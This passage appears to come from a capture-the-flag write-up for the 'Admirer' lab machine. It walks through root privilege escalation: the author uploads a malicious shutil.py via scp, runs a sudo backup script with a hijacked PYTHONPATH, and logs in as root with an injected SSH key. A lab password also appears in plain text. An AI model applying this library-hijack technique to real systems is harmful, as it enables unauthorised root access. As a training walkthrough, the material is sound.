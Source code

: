 We now need to generate an SSH-key:
```bash
root@darkness:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:h/E8HLL8UhekKOgfrrASc0+/gwePVitA9t2con29DA4 root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|            .    |
|     .   . o     |
|    . . + o .    |
|  o.   o O . .   |
| o ....oS.B .    |
|o o +o+.++ o     |
| +.+ XEoo..      |
|.  oB.Bo.+.      |
| ....o.+. o.     |
+----[SHA256]-----+
```
We now have to upload our python-library to the machine. Luckily with SSH enabled, we can simply use `scp` to transfer the file.

```bash
root@darkness:~# scp shutil.py waldo@10.10.10.187:/dev/shm/.chronos/shutil.py
waldo@10.10.10.187's password: &<h5b~yK3F#{PaPB&dA}{H>
shutil.py                                      100%  353     6.7KB/s   00:00
```

#### Exploiting the library injection to get root

Python uses the `PYTHONPATH` environment variable to look for modules and packages. Now if we change this, we can force python to execute our `make_archive` function instead.

```bash
waldo@admirer:~$ sudo PYTHONPATH=/dev/shm/.chronos/ /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
```
Using sudo we should now be able to run `backup.py` in the context of root and execute our code. If everything goes right we should be able to SSH as root now.

```bash
root@darkness:~# ssh root@10.10.10.187 -i id_rsa
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 29 11:07:00 2020
root@admirer:~#
```
We successfully have exploited the python library injection! We now have a shell as root and can read root.txt.

```bash
root@admirer:~# cat root.txt
8ee50***************************
```